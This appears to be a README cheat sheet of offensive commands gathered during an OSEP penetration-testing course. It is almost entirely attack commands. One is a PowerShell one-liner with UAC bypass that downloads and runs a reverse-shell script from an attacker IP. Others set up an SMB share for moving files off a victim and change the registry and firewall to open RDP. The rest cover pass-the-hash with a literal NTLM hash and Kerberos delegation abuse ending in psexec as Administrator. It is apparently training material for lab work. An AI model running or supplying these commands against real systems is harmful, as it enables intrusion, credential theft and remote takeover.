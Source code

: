 Just a bunch of tools built/gathered along the OSEP course.

# Useful Basic Commands:

### <ins>Run command as another user</ins>:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

### <ins>Set up SMB server (file transfer)</ins>:
- `smbserver.py share $(pwd) -smb2support -username amit -password password`
- On Victim: `net use \\192.168.45.223\share /U:amit password`
- Copy files: `copy <FILENAME> \\192.168.45.223\share`

### <ins>Enable RDP and RestrictedAdmin from both Local/Remote</ins>:

Using command prompt: 
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f && reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 && netsh firewall set service remoteadmin enable && netsh firewall set service remotedesktop enable` 

Using netexec:
- `netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec`

### <ins>RDP to host using xfreerdp</ins>:
- `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`

Abuse:

    1. impacket-getST.py -spn cifs/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes :67065141d298d67a17ee8626476b20f9
    2. export KRB5CCNAME=Administrator.ccache
    3. impacket-psexec -k -no-pass dc.intelligence.htb
